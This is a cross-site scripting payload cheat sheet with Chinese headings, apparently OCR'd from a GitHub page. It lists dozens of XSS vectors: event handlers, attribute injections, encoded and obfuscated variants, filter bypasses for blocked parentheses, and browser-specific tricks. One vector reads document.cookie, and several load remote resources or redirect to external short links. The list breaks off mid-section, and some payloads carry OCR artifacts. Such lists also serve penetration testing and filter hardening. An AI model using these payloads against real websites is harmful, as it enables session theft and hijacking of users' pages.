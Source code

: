 		“background”属性
			<table background=javascript:alert(1)></table> // Works on Opera 10.5      and IE6
		“posters” 属性
			<video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5
		“data”属性
			<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
			<object/data=//goo.gl/nlX0P?
		“code”属性
			<applet code="javascript:confirm(document.cookie);"> // Firefox Only
			<embed  code="http://businessinfo.co.uk/labs/xss/xss.swf"      allowscriptaccess=always>
		事件处理
			<svg/onload=prompt(1);>
			<marquee/onstart=confirm(2)>/
			<body onload=prompt(1);>
			<select autofocus onfocus=alert(1)>
			<textarea autofocus onfocus=alert(1)>
			<keygen autofocus onfocus=alert(1)>
			<video><source onerror="javascript:alert(1)">
		短payload
			<q/oncut=open()>
			<q/oncut=alert(1)> //      Useful in-case of payload restrictions.
		嵌套欺骗
			<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
			<body  language=vbsonload=alert-1 // Works with IE8
			<command onmouseover="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x6    9\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command>      // Works with IE8
		圆括号被过滤
			<a onmouseover="javascript:window.onerror=alert;throw 1>
			<img src=x onerror="javascript:window.onerror=alert;throw 1">
			<body/onload=javascript:window.onerror=eval;throw&#039;=alert\x281\x29&#039;;
		Expression 属性
			<img style="xss:expression(alert(0))"> // Works upto IE7.
			<div style="color:rgb(&#039;&#039;x:expression(alert(1))"></div>      // Works upto IE7.
			<style>#test{x:expression(alert(/XSS/))}</style>      // Works upto IE7
		“location”属性
			<a onmouseover=location=’javascript:alert(1)>click
			<body onfocus="location=&#039;javascrpt:alert(1) >123
		其他Payload
			<meta http-equiv="refresh"      content="0;url=//goo.gl/nlX0P">
			<meta http-equiv="refresh"      content="0;javascript&colon;alert(1)"/>
			<svg xmlns="http://www.w3.org/2000/svg"><g      onload="javascript:\u0061lert(1);"></g></svg> //      By @secalert
			<svg xmlns:xlink=" r=100 /><animate attributeName="xlink:href"      values=";javascript:alert(1)" begin="0s"      dur="0.1s" fill="freeze"/> // By Mario
			<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"</svg> // By@secalert
			<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
			<math><a xlink:href="//jsfiddle.net/t846h/">click // By Ashar Javed
		（）；：被过滤
			<svg><script>alert&#40/1/&#41</script>      // Works With All Browsers
			( is html encoded to &#40
			 ) is html encoded to &#41
		Opera的变量
			<svg><script>alert&#40      1&#41 // Works with Opera Only
		实体解码
			&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;
			<a  href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a>
		编码
			JavaScript是很灵活的语言，可以使用十六进制、Unicode、HTML等进行编码，以下属性可以被编码
			（支持HTML, Octal, Decimal,Hexadecimal, and Unicode）
			href=
			action=